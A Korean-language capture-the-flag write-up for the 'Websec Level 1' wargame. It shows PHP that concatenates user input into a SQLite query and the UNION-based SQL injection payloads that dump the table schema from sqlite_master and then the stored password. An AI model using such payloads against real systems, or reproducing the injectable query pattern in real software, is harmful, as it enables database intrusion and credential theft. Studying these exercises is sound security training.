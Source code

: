 ```yaml
---
title : "Websec - Level 1"
categories : [Wargame, Websec]
tags : [SQLi]
---
```


## Level 1
<hr style="border-top: 1px solid;"><br>

```php
$userDetails = $lo->doQuery ($_POST['user_id']); 
# 입력한 값을 doQuery 객체에 보내고 리턴값을 userDetails 변수에 저장.

$query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
# doQuery 객체 코드
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

db는 sqlite3으로 MySQL의 information_schema와 같은 역할을 하는 테이블은 ```sqlite_master```.

컬럼으로는 몇 개가 있었는데, 필요한 컬럼은 sql컬럼(mysql의 information_schema 역할).
: sql컬럼에는 테이블 정보가 들어가있다. 

<br>

```sql
SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1 
```

<br>

취약점은 이 부분에서 터진다. union을 이용한 기초적인 sql injection 문제다. 

입력 
: ```1 union select 1,sql from sqlite_master -- ```
: ```username -> CREATE TABLE users(id int(7), username varchar(255), password varchar(255))```

<br>

이런식으로 테이블 정보가 출력된다. 따라서 다시 입력값으로 ```1 union select 1,password from users where id=1 -- ```을 주면 플래그가 나온다.

<br><br>
<hr style="border: 2px solid;">
<br><br>
